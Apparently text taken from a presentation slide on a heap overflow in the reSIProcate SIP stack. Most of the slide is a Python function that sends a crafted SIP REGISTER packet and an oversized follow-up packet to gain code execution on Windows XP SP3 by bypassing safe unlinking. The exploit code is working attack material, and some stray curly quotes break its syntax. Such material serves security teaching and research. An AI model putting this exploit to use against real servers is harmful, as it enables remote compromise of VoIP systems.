

reSIProcate heap overflow vulnerability: XP SP3 exploit
Arbitrary code execution on Windows XP SP3 (bypassing safe-unlinking check using FreeLists[0] technique)

def exploit_server_heap_overflow_windows_xp_sp3(connection):
    global username, server, via
    buffer_length = 0x20
    shellcode = 23 * b"\x90" + b"\xBE\xBA\xFE\xCA" + 234 * b"\x90“
    register_packet = b"REGISTER "+shellcode+b"sip                                       :"+server.encode()+b" SIP/2.0\x0d\x0aVia: SIP/2.0/TCP " + via.encode() + b"\x0d\x0aContact: <sip:" + username.encode() + b"@" + via.encode() + b">\x0d\x0aTo: <sip:" + username.encode() + b"@" + server.encode() + b";transport=TCP>\x0d\x0aFrom: <sip:" + username.encode() + b"@" + server.encode() + b">\x0d\x0aCSeq: 1 REGISTER\x0d\x0aExpires: 600\x0d\x0aContent-Length: " + ("%ld" % buffer_length).encode() + b"\x0d\x0a\x0d\x0a"
    write_address = b"\x10\x72\xA8\x71“
    oversized_packet = (buffer_length + 220) * b"X" + write_address + 1024 * b"X"
    connection.send(register_packet)
    connection.send(oversized_packet)